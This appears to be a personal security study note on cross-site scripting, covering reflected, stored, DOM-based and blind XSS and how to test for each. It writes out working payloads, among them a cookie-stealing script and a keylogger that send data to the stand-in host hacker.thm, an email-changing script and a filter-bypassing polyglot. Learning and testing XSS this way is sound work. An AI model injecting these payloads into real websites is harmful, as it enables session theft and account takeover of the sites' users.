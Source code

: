 # XSS
cross-site scripting is a vulnerability in which a website allows the execution of random JavaScript code through some input.
basically what happens in an XSS attack is the attacker finds a way to inject malicious JavaScript code into the website which will be executed by other users or the server itself.
this vulnerability is very dangerous since it is basically an [[RCE]] vector.
## Getting started with XSS
the first step in XSS is to identify the vulnerability, this can be easily done with a small proof of concept. a default payload for a JavaScript alert
this is done by injecting a simple payload 
> <script>alert('XSS');</script>

injecting this payload will pop an alert whenever the website is visited. so if the alert pops up, it means that the input is vulnerable to XSS;
>**NOTE:** sometimes, the website sanitizes the input, so there could be ways around this like encoding/decoding the input or something

After discovering the vulnerability, it's all just about executing an attack; for this there are different types of attacks that can be easily; here are some examples:
- Sessions stealing: this would send the user's identity to the attacker's website, example of an payload: `<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>` 
- KeyLogging: this would log the users key strokes and usually sends it over to the attacker's website: example of a payload: `<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>`
- Business Logic: this requires a little bit of understanding of the network resources of the server, as this can change from website to another, here is an example of a payload `<script>user.changeEmail('attacker@hacker.thm');</script>` 

## Reflected XSS
among the ways to detect an XSS, is through the Request URL, if the url parameters are not sanitized properly and are added to the website content, an attacker could inject their own code through the URL parameters and then send this over to a non suspicious user or embed the vulnerable url as frame.
![[reflected_xss_graph.png]]
### Potential impact
This attack is straight forward, if an attacker tricks the user into visiting the compromised URL.
The attacker could send links or embed them into an iframe on another website containing a JavaScript payload to potential victims getting them to execute code on their browser, potentially revealing session or customer information.
### Checking for Reflected XSS
this usually means testing every possible point of entry; these include:
- Parameters in the URL Query String
- URL File Path
- Sometimes HTTP Headers (although unlikely exploitable in practice)

after detecting the vulnerability, it's important to figure out where in the application this scripting is reflected to be able to determine which payloads are executable.
## Stored XSS  
in this scenario, an attacker is able to inject malicious code into the website's database which will then be activated every time a user visits the website page with the malicious code.
![[stored_xss_graph.png]]
this vulnerability is usually found in websites that allow users to store information, such as posts or comments, without properly sanitizing the text.
## Potential impact
The malicious JavaScript could redirect users to another site, steal the user's session cookie, or perform other website actions while acting as the visiting user.
the impact of this vulnerability is much much higher 
### Testing for Stored Xss
this usually means testing every possible entry point where data is stored. this includes:
- comments on a blog
- User profile information
- website listings
> sometimes developers would only limit client side input (client side sanitization) which can be bypassed by introducing values that the web application may not expect.

## [[DOM]] Based XSS
a [[DOM]] (Document object model) is a programming  interface for HTM and XML documents
DOM Based XSS is where the JavaScript execution happens directly in the browser without any new pages being loaded or data submitted to backend code;
this execution happens when the website JavaScript code acts on input or user interaction.
### Example 
for example, a website gets the content from the ``windows.location.hash`` parameter and then writes in onto the website; this means that if an attacker changes the value of this parameter, they can inject code into the webpage.
### Potential impact
Crafted links could be sent to potential victims, redirecting them to another website or stealing content from the user's session.
### Testing for DOM Based XSS
this can be challenging and usually requires some knowledge of JavaScript reading the source code to determine which variables can be controlled. and then we need to evaluate whether the values are ever written to the web page's DOM or passed to unsafe methods
## Blind XSS
very similar to stored XSS, with the small difference that in this type of vulnerability, the attacker can't see the effect of the payload.
### Example
an example scenario would be a contact form, if the message content doesn't get checked for any malicious code, then the code will get executed by the support ticket staff in the private web portal.
### Potential impact
using correct payload, this can give the attacker visibility about a lot of the private staff portal, things such as ursl, cookies, or even content.
so in theory, this attack is more dangerous since it's usually targeting staffs or admins.
### How to test for Blind XSS
testing for this kind of vulnerability requires a callback on execution to get some sort of feedback
a popular tool for blind XSS attacks is [[xsshunter]]
## Polyglot
An XSS polyglot is a string of text which can escape attributes, tags and bypass filters all in one. try the following code and see if it works when all else fails 
``jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e``